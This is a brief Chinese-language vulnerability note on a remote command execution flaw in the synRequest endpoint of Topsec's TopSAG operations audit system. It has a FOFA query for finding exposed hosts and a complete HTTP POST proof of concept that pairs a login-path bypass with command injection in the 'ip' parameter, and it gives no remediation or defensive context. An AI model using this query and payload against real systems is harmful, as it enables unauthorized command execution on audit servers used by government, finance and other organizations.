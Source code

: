 # 天融信运维安全审计系统synRequest存在远程命令执行漏洞
天融信运维安全审计系统TopSAG是基于自主知识产权NGTOS安全操作系统平台和多年网络安全防护经验积累研发而成，系统以4A管理理念为基础、安全代理为核心，在运维管理领域持续创新，为客户提供事前预防、事中监控、事后审计的全方位运维安全解决方案，适用于政府、金融、能源、电信、交通、教育等行业。天融信运维安全审计系统synRequest存在远程命令执行漏洞

## fofa
```javascript
header="iam" && server="Apache-Coyote/"
```

![](https://cdn.nlark.com/yuque/0/2024/png/1622799/1726806457752-179c9efc-a981-49df-93a7-9c9d9b885f74.png)

## poc
```plain
POST /iam/synRequest.do;.login.jsp HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/x-www-form-urlencoded
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-site
Content-Length: 67

method=trace_route&w=1&ip=127.0.0.1|echo%20`whoami`%3b&m=10
```

![](https://cdn.nlark.com/yuque/0/2024/png/1622799/1726806487958-36d070b5-0606-4163-865a-b86bb9d0fcd7.png)

